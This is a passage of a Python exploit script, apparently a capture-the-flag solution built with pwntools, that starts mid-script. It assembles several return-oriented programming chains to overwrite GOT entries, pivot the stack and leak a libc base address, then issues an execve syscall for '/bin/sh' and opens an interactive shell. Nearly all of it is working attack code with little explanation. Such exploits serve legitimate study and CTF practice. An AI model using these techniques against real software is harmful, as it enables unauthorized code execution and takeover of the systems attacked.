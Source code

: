 ```python
rop3(rbp=buffer_addr + 129 + 4)
rop3.raw(eax_gadget)
# Move the value from eax to rdi
rop3.raw(rax_to_rdi_gadget)
# Call fread
rop3.raw(exe.plt.fread + 6)
# Pivot to the final ropchain
rop3(rbp=buffer_addr)
rop3.raw(rop3.find_gadget(["leave", "ret"]))
log.info(rop3.dump())

# Data that will be written in the second GOT overwrite
rop4 = ROP(exe)
rop4.raw(b"BBBBBBBB")
rop4.raw(rop4.find_gadget(["pop rbp", "ret"]))  # fread GOT
rop4.raw(rop4.find_gadget(["pop rbp", "ret"]))  # puts GOT
rop4.raw(b"CCCCCCCC")
log.info(rop4.dump())

# Data that will be written in the third GOT overwrite
rop5 = ROP(exe)
rop5.raw(rop5.find_gadget(["pop rbp", "ret"]))  # scanf GOT
rop5.raw(b"DDDDDDDD")
rop5.raw(b"EEEEEEEE")
rop5.raw(rop5.find_gadget(["pop rbp", "ret"]))  # fread GOT
log.info(rop5.dump())

payload = b"2"
payload += rop1.generatePadding(0, 16)
payload += rop1.chain()
# Data that will be written to GOT
payload += rop2.chain()
payload += rop4.chain()
payload += rop5.chain()
payload += p32(leak)  # Value that will be loaded into eax in order to set rdi without clobbering rsi
payload = payload.ljust(rop3_offset, b"\0")  # Stack space for the functions that we call
payload += rop3.chain()

r.sendafter(b"stuff\n", payload)

# Get libc leak
libc.address = int.from_bytes(r.recvline(keepends=False), "little") - libc.symbols.puts
log.info(f"{hex(libc.address)=}")

# Final ropchain utilizing libc
rop6 = ROP([exe, libc])
rop6.raw(b"bbbbbbbb")  # rbp
# Direct execve syscall
rop6(rax=constants.SYS_execve, rdi=next(libc.search(b"/bin/sh\0")), rsi=0, rdx=0)
rop6.raw(rop6.find_gadget(["syscall"]))
log.info(rop6.dump())
r.send(rop6.chain())

r.interactive()
```
